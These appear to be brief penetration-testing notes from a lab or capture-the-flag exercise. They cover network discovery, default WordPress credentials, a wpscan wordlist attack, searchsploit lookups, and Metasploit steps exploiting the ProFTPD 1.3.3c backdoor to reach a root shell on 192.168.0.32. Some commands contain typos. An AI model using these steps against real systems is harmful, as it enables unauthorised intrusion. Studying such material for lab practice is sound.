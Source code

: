 <h2><u>finding out the network</u></h2>

`ip a`
`$netdisover -r  192.168.2.0/24 ` 


<h2><u>dafault login</u></h2>

default login for wordpress is
user: admin
pass: admin

<h2><u>wpscan</u></h2>

wpscan --url 192.168.0.32/secret --wordlist 
/usr/share/wordlists/dirb/big.txt --threads 3

<h2><u>Another FTP exploit</u></h2>
you can check for exploit in searchsploit
if the nmap scan tells you to an old version.

`searchsploit ProFTPD 1.3.3c`

another openssh exploit

`searchsploit Openssh 7.2p2`

<h3>metasploit steps</h3>
1. msfcosole
2. search ProFTPD 1.3.3c
3. use exploit/unix/ftp/proftpd_133c_backdoor
4. show options
5. set RHOST 192.168.0.32
6. exploit
>python -c 'import os; os.system('/bin/bash')'
>whoami
root


